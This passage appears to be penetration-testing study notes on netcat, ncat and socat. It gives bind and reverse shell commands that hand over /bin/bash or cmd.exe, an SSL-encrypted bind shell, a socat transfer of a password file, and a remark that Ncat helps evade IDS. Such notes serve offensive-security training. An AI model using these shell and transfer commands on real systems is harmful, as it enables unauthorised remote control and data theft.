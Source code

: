 Alice: `nc -vn $BOB_IP 4444 -e /bin/bash`
* Bob can type linux commands and get Output
* Windows box can now control kali

## Ncat
* Netcat lacks both encryption and access limitations
* using Ncat helps avoid IDS
* modern day rewrite of Netcat

### Set up SSL bind shell

Bob: `ncat -lvp 4444 -e cmd.exe --allow $ALICE_IP --ssl`

Alice: `ncat -v $BOB_IP 4444 --ssl`
* should have a secure bind shell

To verify one, can use wireshark

#### nc Vs socat

nc <remote server's ip address> 80

socat - TCP4:<remote server's ip address>:80


sudo nc -lvp localhost 443

sudo socat TCP4-LISTEN:443 STDOUT

## socat

#### File Transfer

sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt

socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create


#### Socat Reverse Shell

socat -d -d TCP4-LISTEN:443 STDOUT

socat TCP4:10.11.0.22:443 EXEC:/bin/bash

#### Socat Bind Shell

Command on windows: socat TCP4-LISTEN:4444,fork EXEC:cmd.exe,pipes
Command on kali: socat - TCP4:192.168.175.10:4444

#### Encrypted connection

we will use the openssl application to create a selfsigned
certificate using the following options:
• req: initiate a new certificate signing request
• -newkey: generate a new private key
• rsa:2048: use RSA encryption with a 2,048-bit key length.
• -nodes: store the private key without passphrase protection
• -keyout: save the key to a file
• -x509: output a self-signed certificate instead of a certificate request
• -days: set valideity period in days
• -out: save the certificate to a file
Once we generate the key, we will cat the certificate and its private key into a file, which we will
eventually use to encrypt our bind shell.
